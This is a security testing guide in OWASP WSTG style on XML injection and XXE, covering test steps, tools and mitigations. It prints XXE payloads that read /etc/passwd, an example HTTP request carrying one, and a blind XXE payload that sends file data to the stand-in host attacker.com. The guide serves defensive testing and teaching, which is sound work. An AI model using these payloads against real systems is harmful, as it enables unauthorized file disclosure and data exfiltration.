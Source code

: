 # WSTG-INPV-14: Testing for XML Injection

## Summary
XML Injection occurs when an attacker injects malicious XML data into an application that parses XML documents. This can lead to unauthorized data access, information disclosure, or denial of service.

---

## Objectives
- Identify input points that allow XML injection.
- Test for injection vulnerabilities by manipulating XML data.
- Assess the impact of exploiting the vulnerability.

---

## How to Test

### Manual Testing

1. **Identify Input Points:**
   - Locate areas of the application where XML data is processed, such as:
     - APIs accepting XML payloads.
     - Web services using SOAP or REST with XML.
     - File upload functionalities.

2. **Inject Malicious XML Data:**
   - Test with malicious payloads to manipulate the XML structure:
     ```xml
     <!DOCTYPE foo [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>
       <data>&xxe;</data>
     </root>
     ```
   - Example request:
     ```http
     POST /api/upload HTTP/1.1
     Content-Type: application/xml

     <?xml version="1.0"?>
     <!DOCTYPE foo [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>
       <data>&xxe;</data>
     </root>
```     

3. **Observe Application Behavior:**
   - Check for unexpected outputs, such as file content or error messages.
   - Analyze responses to confirm whether injected XML is processed.

4. **Test for Blind XXE:**
   - Use out-of-band interactions to confirm XXE vulnerabilities:
     ```xml
     <!DOCTYPE foo [
       <!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd">
     ]>
     <root>
       <data>&xxe;</data>
     </root>
     ```

---

### Automated Testing

Use tools like:
- **Burp Suite Extensions:** Test for XML injection using specific payloads.
- **OWASP ZAP:** Scan for XML injection vulnerabilities.
- **XXEinjector:** Detect and exploit XXE vulnerabilities.

---

## Mitigation
- Disable external entity processing (XXE) in XML parsers by default.
- Validate and sanitize all XML input.
- Use XML libraries that are resistant to XXE attacks.
- Enforce strict schemas for XML documents.
- Monitor and log XML parsing activities for unusual behavior.

---

## References
- OWASP XXE Prevention Cheat Sheet
- CWE-611: Improper Restriction of XML External Entity Reference ('XXE')
- Tools:
  - [Burp Suite Extensions](https://portswigger.net/bappstore)
  - [XXEinjector](https://github.com/enjoiz/XXEinjector)
  - [OWASP ZAP](https://www.zaproxy.org/)
